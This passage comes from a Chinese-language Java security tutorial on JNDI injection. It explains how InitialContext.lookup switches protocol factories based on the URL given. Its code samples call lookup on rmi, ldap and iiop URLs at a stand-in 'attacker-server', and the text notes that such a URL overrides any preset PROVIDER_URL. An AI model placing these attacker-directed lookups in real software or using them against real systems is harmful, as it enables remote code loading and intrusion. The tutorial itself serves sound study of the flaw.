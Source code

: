 # 动态协议转换
在上文的示例代码中都手动设置了对应服务的工厂以及对应服务的`PROVIDER_URL`, 其实在`JNDI`中是可以进行动态协议转换的, 示例代码如下:

 - Demo-1
```java
Context context = new InitialContext();
context.lookup("rmi://attacker-server/refObject");
context.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
context.lookup("iiop://attacker-server/bar");
```

 - Demo-2
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:8888");
Context context = new InitialContext(env);

String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";
context.lookup(name);
```

在`Demo-1`的代码中没有设置对应服务的工厂以及`PROVIDER_URL`, `JNDI`根据传递的`URL`协议自动转换与设置了对应的工厂及`PROVIDER_URL`. 在`Demo-2`的代码中可以看到, 即使服务端提前设置了工厂与`PROVIDER_URL`也没有什么影响, 当`lookup`操作时的参数能够被攻击者控制时, 依旧会根据攻击者提供的`URL`进行动态转换并覆盖掉最初设置的`PROVIDER_URL`, 将`lookup`操作指向攻击者控制的服务器.

从源码层面上来看看具体的流程, 跟进`InitialContext#lookup`方法, 在返回值中会调用`InitialContext#getURLOrDefaultInitCtx`方法, 继续跟进该方法, 在这里会进行动态转化操作.

![InitialContext#lookup](./images/4.png)

![InitialContext#getURLOrDefaultInitCtx](./images/5.png)

`JDK`中默认支持的`JNDI`自动协议转换以及对应的工厂类如下:
|协议|schema|Context|
|:----|:----|:----|
|DNS|dns://|com.sun.jndi.url.dns.dnsURLContext|
|RMI|rmi://|com.sun.jndi.url.rmi.rmiURLContext|
|LDAP|ldap://|com.sun.jndi.url.ldap.ldapURLContext|
|LDAP|ldaps://|com.sun.jndi.url.ldaps.ldapsURLContext|
|IIOP|iiop://|com.sun.jndi.url.iiop.iiopURLContext|
|IIOP|iiopname://|com.sun.jndi.url.iiopname.iiopnameURLContext|
|IIOP|corbaname://|com.sun.jndi.url.corbaname.corbanameURLContext|